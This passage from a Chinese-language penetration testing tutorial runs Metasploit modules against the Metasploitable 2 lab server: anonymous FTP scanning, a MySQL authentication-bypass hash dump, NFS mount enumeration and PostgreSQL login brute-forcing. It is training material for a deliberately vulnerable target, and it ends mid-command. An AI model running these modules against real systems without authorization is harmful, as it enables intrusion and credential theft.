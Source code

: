 我们还可以看到系统上运行着`mysql`服务、`postgresql`服务、`vnc`服务、`x11`和`IRC`。现在让我们开始对 Metasploitable 2 服务器进行漏洞评估。

1.  在整个过程中，我们将使用 Metasploit。让我们分析`ftp`服务，看看它是否容易受到已知组件的攻击。如果`Rhosts`选项没有显示我们的目标 IP 地址，我们可以手动填写。在 Metasploit 控制台中输入以下命令：

```
          use auxiliary/scanner/ftp/anonymous
          show options
          set Rhosts <IP Address>
          exploit

    ```

输出如下截图所示：

![如何操作...](img/image_03_022.jpg)

1.  我们将尝试使用`mysql`的身份验证绕过，看看我们是否成功。在`msf`终端上运行以下命令：

```
          use auxiliary/scanner/mysql/mysql_authbypass_hashdump
          exploit

    ```

输出如下截图所示：

![如何操作...](img/image_03_023.jpg)

1.  我们还知道有一个运行中的`nfs`服务。让我们运行信息收集模块`nfsmount`。输入以下命令：

```
          use auxiliary/scanner/nfs/nfsmount
          show options
          exploit

    ```

输出如下截图所示：

![如何操作...](img/image_03_024.jpg)

1.  我们甚至可以通过`metasploit`模块对`postgresql`服务进行暴力破解攻击。要做到这一点，在`mfs`终端中输入以下命令：

```
          use auxiliary/scanner/postgres/postgres_login
          exploit
